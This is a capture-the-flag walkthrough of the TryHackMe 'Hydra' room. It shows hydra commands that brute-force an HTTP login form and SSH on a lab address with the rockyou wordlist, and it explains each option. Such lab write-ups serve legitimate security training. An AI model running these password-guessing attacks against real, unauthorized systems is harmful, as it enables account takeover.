 # [Hydra](https://tryhackme.com/room/hydra)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Hydra |
| Difficulty | Easy |
| Tags | brute-force, hydra|

---
```bash
export IP=10.10.61.134
```

http bruteforce:
```bash
$ hydra -V -t 64 -l molly -P ~/wordlists/passwords/rockyou.txt $IP http-post-form "/login/:username=molly&password=^PASS^:incorrect"
```
~~~
Breaking this down:
-V -> verbose
-t -> threads for the attack (more = faster)
-l -> single login value (use -L for a wordlist)
-P -> password list (use -p for a single password)
$IP -> variable storing the IP address we want to target
http-post-form -> we use post requests to the page
The last part can be broken down into
"route_to_login:username=^USER^&password=^PASS^:fail_string"

More options can be found in the hydra man page
~~~

![hydra http brute force](./assets/http_hydra.png)

ssh bruteforce was extremely quick
```bash
$ hydra -t 64 -l "molly" -P ~/wordlists/passwords/rockyou.txt ssh://$IP
```
~~~
Breaking this down, I will skip the ones covered in the http brute-force

ssh://$IP -> points to the IP we must brute-force and the type of port it is (use ssh://$IP:port to specify port)
~~~

![hydra ssh brute force](./assets/ssh_hydra.png)

Complete!
